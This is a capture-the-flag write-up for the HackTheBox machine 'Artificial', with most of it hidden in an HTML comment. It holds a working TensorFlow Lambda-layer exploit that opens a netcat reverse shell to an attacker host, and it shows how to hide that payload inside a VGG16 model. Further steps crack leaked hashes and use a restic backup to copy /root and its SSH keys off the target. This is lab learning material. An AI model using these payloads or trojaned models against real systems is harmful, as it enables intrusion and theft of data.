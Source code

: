 # Artificial
```
Difficulty: Easy
Operating System: Linux  
Hints: TensorFlow RCE, Docker misuse, SQLite DB leak, local-only service  
```

## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    nginx 1.18.0 (Ubuntu)  
|_http-title: Artificial - AI Solutions  
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

**Access Restricted by HackTheBox Rules**

<!--

## Foothold

The website hosted on port 80 allows user registration and provides a feature to upload `requirements.txt`, suggesting potential dependency injection.

We discovered the use of TensorFlow for model uploads. Using an RCE payload in the `.h5` model, we achieved a reverse shell.

Exploit script:
```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 6666 > /tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```


#### TensorFlow Models Are Programs
TensorFlow models should be treated as code. The official [TensorFlow Security Guidelines](https://www.tensorflow.org/security) warn not to load untrusted models as models can contain executable logic, especially through features like Lambda layers.

#### The Lambda Layer
The `tf.keras.layers.Lambda` layer allows wrapping arbitrary Python expressions, which introduces the ability to run commands during model loading or inference.

#### RCE Example with Lambda
```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("touch /tmp/pwned")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

This code creates a `.h5` model file that executes `touch /tmp/pwned` when loaded. A reverse shell can be triggered the same way:

```python
def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 6666 > /tmp/f")
    return x
```

#### Hiding the Malicious Layer
You can embed the Lambda layer inside a legitimate model like VGG16:

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6666 >/tmp/f")
    return x

lambdaLayer = tf.keras.layers.Lambda(exploit, name="output")
original = tf.keras.applications.vgg16.VGG16()
inp = original.input
original.layers.pop()
infected = tf.keras.models.Model(inp, lambdaLayer(original.layers[-1].output))

for layer in infected.layers:
    layer.trainable = False

infected.save("infected.h5")
```

This technique can stealthily deliver payloads through seemingly benign ML models. The risk is real—always sanitize and verify what you're loading.



Upload the model, click **View Predictions**, and receive a shell.

## User

After initial access as `app`, we found a SQLite database containing hashed user credentials:
```sql
sqlite3 users.db
sqlite> select * from user;
...
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
...
```

### Method 1 - Hash Cracking (MD5)
Extracted hash:
```
c99175974b6e192936d97224638a34f8
```

Using John:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```
Password cracked: `mattp005numbertwo`

Tried SSH login with user `gael` and the cracked password — success.

## Root

Once we logged in as `gael`, we began privilege escalation enumeration using `linPEAS`.

We noticed that `gael` is part of the `sysadm` group and has read access to a large backup file:

```bash
ls -l /var/backups
-rw-r-----  1 root sysadm 52357120 backrest_backup.tar.gz
```

We copied the file locally for analysis. After extracting, we discovered the following in a config file:

```json
{
  "name": "backrest_root",
  "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
}
```

### Method 1 - Bcrypt Cracking
First, decode from base64:
```bash
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d
```

Result:
```
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

Use John to crack:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```
Password cracked: `!@#$%^`

### Port Forwarding
We noticed a local service running on port `9898`:
```bash
ss -tuln | grep LISTEN
tcp   LISTEN 0      4096    127.0.0.1:9898   0.0.0.0:*
```

Forwarded the port:
```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

Accessed the service via browser at `http://localhost:9898`, logged in using the cracked credentials.

We gained access to a restricted interface allowing command execution, leading to full root shell.

---

## Restic Backup Abuse via rest-server

After gaining access to a user in the `sysadm` group, we found a usable binary: **restic**. This can be abused to perform backups of sensitive directories if we have access to rest-server.

### 📦 Step 1: Start a `rest-server` on your attacker machine (Kali)

```bash
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```

```
Data directory: /tmp/restic-data
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:12345
```

---

### 🛠 Step 2: On the target, initialize a new repo and back up `/root`

```bash
restic -r rest:http://tun0:12345/myrepo init
restic -r rest:http://tun0:12345/myrepo backup /root
```

---

### 📁 Step 3: Back on Kali, view snapshots

```bash
restic -r /tmp/restic-data/myrepo snapshots
```

```
ID        Time                 Host        Tags        Paths  Size
-----------------------------------------------------------------------
905855e5  2025-06-23 05:17:15  artificial              /root  4.299 MiB
-----------------------------------------------------------------------
1 snapshots
```

---

### 🔁 Step 4: Restore the snapshot

```bash
restic -r /tmp/restic-data/myrepo restore b3112b8a --target ./restore
```

Now, the entire `/root` directory is recovered under `./restore/root`.

---

### 🪪 Step 5: Access the root flag

```bash
ls -al restore/root/
cat restore/root/root.txt
```

You’ll also find `.ssh` keys:

```bash
ssh -i ./restore/root/.ssh/id_rsa root@artificial.htb
```

---

## ✅ Summary

**User:** Exploited TensorFlow model deserialization to get RCE and crack SQLite DB password.  
**Root:** Used Restic backup capability with exposed `rest-server` to exfiltrate and restore `/root`, then extracted SSH key and accessed root.

---

**Pwned Artificial!!**

![**Pwned Artificial!!**](Pictures/Arificial.png)

-->


